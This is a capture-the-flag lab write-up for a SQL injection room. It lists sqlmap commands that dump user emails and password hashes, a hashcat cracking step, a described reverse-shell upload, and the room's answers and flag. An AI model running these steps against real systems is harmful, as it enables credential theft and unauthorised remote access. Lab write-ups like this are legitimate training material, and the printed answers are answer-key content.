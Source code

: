# LapLANd (SQL Injection)

```

```

## Notes

```
export IP=10.10.17.107
```

## Questions

1. Which field is SQL injectable? Use the input name used in the HTML code.

```
intercept login request
capture raw POST request and save it to a file login_request
sqlmap -r login_request --current-db                            => identify current db

log_email
```

2. What is Santa Claus' email address?

```
from #1 social is db
sqlmap -r login_request -D social --tables                             => list tables in db

Result:
comments
users

sqlmap -r login_request -D social -T users --columns                    => list columns

Result:
id, first_name, last_name, password

sqlmap -r login_request -D social -T users -C email,password --dump --where 'first_name="Santa"'

Result:
+--------------------+----------------------------------+                                              │
| email              | password                         |
+--------------------+----------------------------------+
| bigman@shefesh.com | f1267830a78c0b59acc06b05694b2e28 |
+--------------------+----------------------------------+

bigman@shefesh.com
```

3. What is Santa Claus' plaintext password?

```
from #2 we have hash f1267830a78c0b59acc06b05694b2e28

hashcat hashfile wordlist

saltnpepper
```

4. Santa has a secret! Which station is he meeting Mrs Mistletoe in?

```
login with user and pass

Waterloo
```

5. Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/

```
search php reverse shell pentest monkey, fill in your ip and port you'll be listening on netcat
upload it it posts
access file in /home/user

THM{SHELLS_IN_MY_EGGNOG}
```
